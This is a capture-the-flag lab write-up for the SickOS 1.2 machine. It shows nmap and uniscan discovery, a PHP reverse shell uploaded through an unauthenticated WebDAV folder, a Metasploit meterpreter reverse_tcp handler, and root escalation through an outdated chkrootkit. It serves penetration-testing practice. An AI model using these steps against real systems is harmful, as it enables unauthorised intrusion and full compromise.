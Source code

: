 +++
menu = "main"
date = "2016-12-20T23:45:50-05:00"
title = "B2R: SickOSv1.2"

+++



## Executive Summary
This machine had an unprotected folder which allowed uploading of malicious PHP code which could then be
executed remotely. An attacker could then create an unprivileged shell on the victim machine and begin to
explore the system for additional vulnerabilities which could lead to a full compromise. During the
exploration, an outdated version of `chkrootkit` was found. By exploiting a known vulnerability in the way
`chkrootkit` parses arguments, an attacker could create a malicious file that would later be run by
`chkrootkit` as a fully privileged user.

## Tools used
  - nmap - discovery
  - uniscan - web application scanner
  - metasploit - exploit framework
  - msfvenom - payload generation
  - local-linux-enum script - enumeration

## Proof of Concept

In order to cut down on typing, once the IP of the victim computer is discovered, it can be added to the
`/etc/hosts`.

~~~bash.prettyprint
echo "192.168.1.188 vm" >> /etc/hosts
~~~

We begin with scanning the victim's machine and find ports 80 and 22.

~~~bash.prettyprint
❯❯ nmap -p - -A vm | tee nmap.scan
~~~

![](https://i.imgur.com/jQr872J.png)


Navigating to the page and checking its source code reveals nothing

![](https://i.imgur.com/1Oigcfa.png)

Running `uniscan`, a folder named `test` is discovered

~~~bash.prettyprint
❯❯ uniscan -qweds -u http://vm/ 
~~~

![](https://i.imgur.com/wU5Wp2v.png)

The listing appeared to be empty but further examination of the `/test` path revealed that it responded to
more than just HTTP methods. `COPY` and `MOVE` seemed to indicate WebDAV.

~~~bash.prettyprint
❯❯ curl -vX OPTIONS vm/test
~~~

![](https://i.imgur.com/6GKZJbc.png)

This path requires no authentication and thus allows attackers to upload files to the web server. 

![](https://i.imgur.com/gSzuoHZ.png)


Verifying successful upload:

![](https://i.imgur.com/CpTqKyO.png)

Having uploaded the reverse shell, the Meterpreter handler is constructed

~~~bash.prettyprint
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 80
run -j
~~~

...and the payload is activated.

~~~bash.prettyprint
curl http://vm/test/sshhh.php
~~~


![](https://i.imgur.com/XQ3a9Q4.png)

Once a shell has been established on the system, an enumeration script reveals what additional
vulnerabilities might lead to a full compromise.


The installed version of `chkrootkit` is outdated and vulnerable to a code execution exploit.

![](https://i.imgur.com/EJSijYp.png)

The ExploitDB gives the following description:

![](https://i.imgur.com/uVIlbic.png)

Using Metasploit, we create another handler and payload, using the `chkrootkit` module. This module will
create/overwrite the `/tmp/update` file with the reverse tcp shell of your choosing. The next time
`chkrootkit` is run, this update file will connect back to the attacker computer designated in the payload.

![](https://i.imgur.com/9GKQfrW.png)
